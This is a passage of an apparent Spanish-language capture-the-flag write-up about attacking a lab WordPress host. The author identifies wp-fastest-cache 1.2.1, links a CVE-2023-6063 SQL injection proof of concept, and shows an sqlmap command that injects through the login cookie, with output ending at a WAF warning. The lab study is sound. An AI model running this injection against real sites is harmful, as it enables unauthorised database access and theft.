 Vemos que encontro un `plugin` llamado `wp-fastest-cache` vamos a ver que version tiene y buscar un `exploit` para el mismo si lo tuviera.

```
URL = http://norc.labs/wp-content/plugins/wp-fastest-cache/readme.txt
```

Vemos que tiene la siguiente version:

```
=== WP Fastest Cache ===
Contributors: emrevona
Donate link: https://profiles.wordpress.org/emrevona/
Tags: cache, Optimize, performance, wp-cache, core web vitals
Requires at least: 3.3
Tested up to: 6.4
Stable tag: 1.2.1
License: GPLv2 or later
License URI: https://www.gnu.org/licenses/gpl-2.0.html
```

Vemos que tiene la version `1.2.1` y si buscamos un exploit, veremos el siguiente:

URL = [Exploit Info Plugin](https://pentest-tools.com/vulnerabilities-exploits/wp-fastest-cache-122-unauthenticated-sql-injection_22453)

Vemos que se le puede realizar un `SQL Injection` gracias a este `Plugin`, por lo que tendremos que hacer lo siguiente:

## SQL Injection

Veremos la informacion del `PoC` en el siguiente link:

URL = [Info PoC SQL Injection Plugin Wodpress](https://github.com/motikan2010/CVE-2023-6063-PoC)

```shell
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema
```

Info:

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.11#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:09:22 /2025-01-18/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 

[11:09:24] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[11:09:24] [WARNING] provided value for parameter 'wordpress_logged_in' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[11:09:24] [INFO] testing connection to the target URL
got a 302 redirect to 'http://norc.labs'. Do you want to follow? [Y/n] 

[11:09:25] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:09:25] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] 
```